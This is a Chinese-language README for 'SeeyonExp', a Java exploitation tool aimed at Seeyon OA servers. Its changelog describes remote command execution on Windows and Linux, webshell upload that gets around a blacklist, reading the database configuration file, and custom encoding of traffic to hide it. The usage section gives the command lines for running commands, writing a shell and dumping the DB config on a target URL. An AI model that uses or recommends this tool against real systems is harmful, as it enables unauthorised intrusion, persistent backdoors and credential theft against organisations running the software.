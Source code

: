# SeeyonExp

### 0x00 开发日志

V0.7 增加识别版本后无损检测漏洞功能，有那么点漏扫的意思

V0.6 增加数据库配置文件读取功能

V0.5 增加回显流量加密功能，Base64与ascii结合，Base65

V0.4 解决命令执行for循环无法执行for之后Java代码的bug，分号的神奇作用

V0.3 增加文件上传功能，Base64不编码写入不了，黑名单校验

V0.2 命令可以在windows与Linux下执行，并支持https

V0.1 根据POC写出初步利用，可以执行命令，但是仅在windows与http下

### 0x01 使用方法

无损检验是否存在漏洞：java -jar seeyon.jar scan http/https://xxxx.com:port/seeyon 

执行命令：java -jar seeyon.jar http/https://xxxx.com:port/seeyon cmd 

写入shell：java -jar seeyon.jar http/https://xxxx.com:port/seeyon shell srcFile desFile 

读取数据库配置文件：java -jar seeyon.jar http/https://xxxx.com:port/seeyon dataConf 

流量解码：java -jar seeyon.jar decode ciphertext 

流量编码：java -jar seeyon.jar encode Plaintext

